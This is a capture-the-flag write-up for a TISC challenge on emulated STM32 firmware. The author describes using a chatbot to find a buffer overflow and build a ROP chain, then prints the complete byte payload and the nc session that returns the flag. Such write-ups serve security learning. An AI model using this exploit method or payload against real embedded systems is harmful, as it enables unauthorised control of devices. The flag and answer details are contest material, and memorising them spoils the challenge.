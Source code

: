 # Level-9 - HWisntThatHardv2

DESCRIPTION

Last year many brave agents showed the world what they could do against PALINDROME's custom TPM chips. Their actions sent chills down the spines of all those who seek to do us harm. This 

year, we managed to exfiltrate an entire STM32-based system and its firmware from within SPECTRE.

Since you probably do not have STM32 development boards at home, we have built an emulator that does its best to emulate the STM32 chip and its peripherals. This is neatly packaged inside a

docker container, so you can run it on your own machine.

Your mission, if you choose to accept it, is to find out what this device is built to do, how to interact with it, and, if possible, how to exploit it.

You will be provided with the following emulator + firmware:

- MD5 (HWisntThatHard_v2.tar.xz) = 1246c6248e2788613f702a50d162b748
- MD5 (config.yaml) = 5ea0a99dc870dd3ae31370e69c652002
- MD5 (csit_iot.bin) = 57a8e159e6d81e620f618258cd4f4a50
- MD5 (docker-compose.yml) = e284296706c38121e6074cfd09f0a062
- MD5 (Dockerfile) = 84ee422322a23d6e25e73d3a44e59763
- MD5 (ext-flash.bin) = 8ea3bc31ef48ec78012c0c46d857f50e
- MD5 (stm32-emulator) = 731c0d36f8949bd8a5f26ee05b821b8c
- MD5 (stm32f407.svd) = cd5687242c32a448d84e6995065ddaf1


You can perform your attack on a live STM32 module hosted behind enemy lines:

nc chals.tisc25.ctf.sg 51728

attached files

HWisntThatHard_v2.tar.xz

---

# WARNING: If you want to learn how to solve the challenge properly, find another writeup!

Now that the warning is over, CHAT kinda cooked this challenge for me but I'll still try to talk about the challenge :)

So I opened the csit_iot.bin in IDA and searched for strings and pressed X to see where they were being used and found the function sub_8007900().

I pasted the pseudo-code into CHAT and it told me

<img width="770" height="146" alt="image" src="https://github.com/user-attachments/assets/46751c70-bb7d-4a8c-a743-37fe3960d46d" />

Indeed, indeed.

I asked it how do I interect with the server and it gave me the proper format after multiple tries.

So I ran the server locally and started to try and expriement by myself.

```code
{"slot":1}
Slot 1 contains: [84,73,83,67,123,70,65,75,69,95,70,76,65,71,95,71,79,69,83,95,72,69,82,69,125,0,0,0,0,0,0,0]
{"slot":2}
Slot 2 contains: [84,73,83,67,123,70,65,75,69,95,70,76,65,71,95,71,79,69,83,95,72,69,82,69,125,0,0,0,0,0,0,0]
```

I asked CHAT where these values were coming from and it told me that it was getting it from ext-flash.bin.

So I checked it, and saw TISC{REAL_FLAG_GOES_HERE} :0.

Ok so somehow I had to make the server read from the first 32 bytes from the ext-flash.bin.

So I chatted to CHAT more and it told me to send it more functions for it to analyise.

After an intense prompt engineering session, it identified the buffer overflow bug.

To my understanding, when checking slots, once I sent more than 44 bytes, an address is in the next 4 bytes, the programme will jump to that address which allows us to constuct a ROP payload utilizing gadgets such that we can make the problem read the first 32 bytes of the ext-flash.bin.

And this is where it started to cook.

<img width="818" height="382" alt="image" src="https://github.com/user-attachments/assets/a2767272-21fd-493f-9c70-b4e0e37b381c" />

And so I gave the POP {R0-R3, PC} gadget at 0x080068EE to it, it then asked for a SPI READ address and I give it 0x08034E5C where the first four bytes were [03, 00, 00, 00], it then ask for a BLX R3 and I gave it 0x08005526 and then it cooked.

<img width="774" height="510" alt="image" src="https://github.com/user-attachments/assets/54f5ff8c-d974-430a-a853-79e70f4d8be2" />

I asked it to put everything into one line and got 
```
{"slot":1,"data":[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,239,104,0,8,0,0,2,64,0,128,0,0,0,0,0,0,221,23,0,8,37,85,0,8,239,190,173,222,239,104,0,8,120,3,0,32,92,78,3,8,4,0,0,0,189,37,0,8,37,85,0,8,239,190,173,222,239,104,0,8,120,3,0,32,0,16,0,32,32,0,0,0,237,43,0,8,37,85,0,8,239,190,173,222,239,104,0,8,0,0,2,64,0,128,0,0,1,0,0,0,221,23,0,8,37,85,0,8,239,190,173,222,239,104,0,8,88,8,0,32,0,16,0,32,32,0,0,0,197,120,1,8,37,85,0,8,239,190,173,222,239,104,0,8,88,8,0,32,10,0,0,0,0,0,0,0,65,119,1,8,37,85,0,8,239,190,173,222,1,121,0,8]}
```

Now I just sent this to the server and I got the flag.

```
nc chals.tisc25.ctf.sg 51728
{"slot":1,"data":[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,239,104,0,8,0,0,2,64,0,128,0,0,0,0,0,0,221,23,0,8,37,85,0,8,239,190,173,222,239,104,0,8,120,3,0,32,92,78,3,8,4,0,0,0,189,37,0,8,37,85,0,8,239,190,173,222,239,104,0,8,120,3,0,32,0,16,0,32,32,0,0,0,237,43,0,8,37,85,0,8,239,190,173,222,239,104,0,8,0,0,2,64,0,128,0,0,1,0,0,0,221,23,0,8,37,85,0,8,239,190,173,222,239,104,0,8,88,8,0,32,0,16,0,32,32,0,0,0,197,120,1,8,37,85,0,8,239,190,173,222,239,104,0,8,88,8,0,32,10,0,0,0,0,0,0,0,65,119,1,8,37,85,0,8,239,190,173,222,1,121,0,8]}
Checking...
TISC{3mul4t3d_uC_pwn3d}
```

FLAG: TISC{3mul4t3d_uC_pwn3d} (A solve is a solve 😥)
